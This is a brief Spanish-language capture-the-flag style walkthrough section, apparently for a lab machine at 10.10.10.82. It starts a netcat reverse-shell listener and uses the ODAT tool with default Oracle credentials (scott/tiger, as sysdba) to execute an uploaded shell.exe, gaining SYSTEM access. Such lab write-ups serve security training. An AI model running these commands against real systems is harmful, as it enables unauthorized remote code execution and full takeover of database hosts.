 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con ODAT {-}

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Intentamos ejecutar el exploit con odat

```bash
python3 odat.py --help
python3 odat.py externaltable -s 10.10.10.82 -d XE -U "scott" -P "tiger" --sysdba --exec /Temp shell.exe
```

Ya hemos ganado accesso al systema y ademas somos nt authority\system que significa que no es necessario hacer escalada de privilegios.